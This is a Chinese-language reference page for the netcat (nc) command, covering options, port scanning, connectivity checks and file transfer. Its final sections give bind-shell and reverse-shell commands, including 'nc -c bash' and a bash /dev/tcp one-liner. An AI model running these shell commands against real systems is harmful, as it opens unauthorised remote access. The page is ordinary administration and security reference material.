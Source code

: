 nc
===

用于设置路由器，是网络工具中的瑞士军刀。

## 补充说明

**nc命令** 全称**netcat**，用于设置路由器。它能通过 TCP 和 UDP 在网络中读写数据。通过与其他工具结合和重定向，你可以在脚本中以多种方式使用它。使用 netcat 命令所能完成的事情令人惊讶。

###  语法

```shell
nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>]
[-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
```

###  选项

```shell
-g <网关> # 设置路由器跃程通信网关，最多可设置8个。
-G<指向器数目> # 设置来源路由指向器，其数值为4的倍数。
-h 在线帮助。
-i<延迟秒数> 设置时间间隔，以便传送信息及扫描通信端口。
-l 使用监听模式，管控传入的资料。
-n 直接使用IP地址，而不通过域名服务器。
-o<输出文件> # 指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
-p<通信端口> # 设置本地主机使用的通信端口。
-r 乱数指定本地与远端主机的通信端口。
-s<来源位址> # 设置本地主机送出数据包的IP地址。
-u 使用UDP传输协议。
-v 显示指令执行过程。
-w<超时秒数> # 设置等待连线的时间。
-z 使用0输入/输出模式，只在扫描通信端口时使用。
```

### 实例

**TCP端口扫描**

```shell
[root@localhost ~]# nc -v -z -w2 192.168.0.3 1-100 
192.168.0.3: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.0.3] 80 (http) open
(UNKNOWN) [192.168.0.3] 23 (telnet) open
(UNKNOWN) [192.168.0.3] 22 (ssh) open
```

扫描192.168.0.3 的端口 范围是 1-100
**扫描UDP端口**

```shell
[root@localhost ~]# nc -u -z -w2 192.168.0.1 1-1000  # 扫描192.168.0.3 的端口 范围是 1-1000
```

**扫描指定端口**

```shell
[root@localhost ~]# nc -nvv 192.168.0.1 80 # 扫描 80端口
(UNKNOWN) [192.168.0.1] 80 (?) open
y  //用户输入
```

查看从服务器到目的地的出站端口 443 是否被防火墙阻止

```shell
nc -vz acme-v02.api.letsencrypt.org 443 -w2
# Ncat: Version 7.50 ( https://nmap.org/ncat )
# Ncat: Connected to 23.77.214.183:443.
# Ncat: 0 bytes sent, 0 bytes received in 0.07 seconds.
```
**文件传输**

```shell
# 接收方提前设置监听端口与要接收的文件名（文件名可自定义）：
nc -lp 8888 > node.tar.gz

# 传输方发文件：
nc -nv 192.168.75.121 8888  < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：192.168.75.121是接收方的ip地址。
```

```shell
# 如果希望文件传输结束后自动退出，可以使用下面的命令：
nc -lp 8888 > node.tar.gz
nc -nv 192.168.75.121 8888 -i 1 < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：-i 表示闲置超时时间
```

**远程控制**

```shell
# 正向控制，被控端主动设置监听端口及bash环境，控制端连接，如果有防火墙，需开放端口，否则会被拦截。
# 被控制端执行下面的命令：
nc -lvnp 8888 -c bash
# 控制端执行下面的命令：
nc 192.168.75.121 8888
```

```shell
# 反向控制，控制端设置监听端口，被控端主动连接控制端的ip及端口，并提供bash环境。
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控制端执行下面的命令：
nc 192.168.75.121 8888 -c bash
```

**反弹shell**

```shell
# 控制端执行下面的命令：
nc -lvnp 8888
```

```
# 被控端执行下面的命令:
bash -i &> /dev/tcp/192.168.75.121/8888 0>&1
```

